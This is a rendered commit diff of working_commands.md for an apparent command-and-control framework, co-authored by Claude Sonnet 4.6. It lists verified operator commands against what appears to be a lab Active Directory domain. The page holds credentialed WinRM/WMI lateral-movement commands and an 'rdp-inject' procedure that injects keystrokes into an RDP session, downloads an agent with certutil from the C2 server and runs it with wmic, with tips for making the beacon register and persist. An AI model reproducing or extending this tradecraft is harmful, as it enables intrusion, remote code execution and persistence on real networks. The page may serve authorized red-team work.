

Before and after one commit to endgamec2framework/endgame, a Markdown page: working_commands.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs: add rdp-inject verified notes + C agent sysinfo format update
- rdp-inject (password auth) fully verified: C:\Users\Public\ path,
  backslash fix for wmic, _x suffix, RDP Session 3 persistence
- sysinfo row: C agent now returns lowercase hostname + DOMAIN\user
  format after GetUserNameExA fix

Co-Authored-By: Claude Sonnet 4.6 <noreply@anthropic.com>
Claude-Session: https://claude.ai/code/session_01BFXynb1TfBKkRJ7uC8sssh

```diff
--- a/working_commands.md
+++ b/working_commands.md
@@ -13,7 +13,7 @@ Agent binaries: ag4.exe=Go(PID 7128), an.exe=Nim, ac2.exe=C, ar3.exe=Rust
 
 | Command | Result |
 |---------|--------|
-| `sysinfo` | `hostname=castelblack user=localuser os=windows/amd64 pid=7128` |
+| `sysinfo` | `hostname=castelblack user=localuser os=windows/amd64 pid=7128` (Go); C agent → `hostname=castelblack user=NORTH\jon.snow` (lowercase host, DOMAIN\user after GetUserNameExA fix) |
 | `ps` | 231 processes listed; lsass=596, MsMpEng=2892, agent_c=716 |
 | `getpid` | `7128` (ag4.exe Go agent) |
 | `ppid` | `4920` |
@@ -173,6 +173,15 @@ Files must be in `data/uploads/` on C2 server.
 | `jump winrm CASTELBLACK ag4.exe localuser password` | lateral via WinRM |
 | `jump wmi CASTELBLACK ag4.exe localuser password` | lateral via WMI Win32_Process |
 | `winrm exec CASTELBLACK localuser password whoami` | single command via WinRM |
+| `rdp-inject` (GUI: Internal Pentest → password auth) | xdotool Win+X→Run→certutil download→wmic execute; spawns agent as NORTH\jon.snow in RDP session |
+
+**rdp-inject notes (verified 2026-07-29):**
+- Download path must be `C:\Users\Public\` — `C:\Windows\Temp\` requires local admin, non-admin users (jon.snow) get EACCES and certutil silently writes nothing
+- wmic path must use **backslashes**: `wmic process call create C:\Users\Public\agent.exe` — wmic treats `/` as flag prefix → "Invalid Verb Switch" silent failure
+- `_x` suffix on filename avoids file-lock if same binary already running (e.g. `agent_https_go_x.exe`)
+- Agent spawns in RDP Session 3 (not Session 0); session stays alive after xfreerdp disconnect
+- 45s sleep window between certutil download and xfreerdp kill lets the beacon fire
+- Verified: agent b9f522d7 registered as NORTH\jon.snow, PID 3004, castelblack ✓
 
 ---
 
```
Also changed, not shown: other parts of working_commands.md (+1 -1 lines).
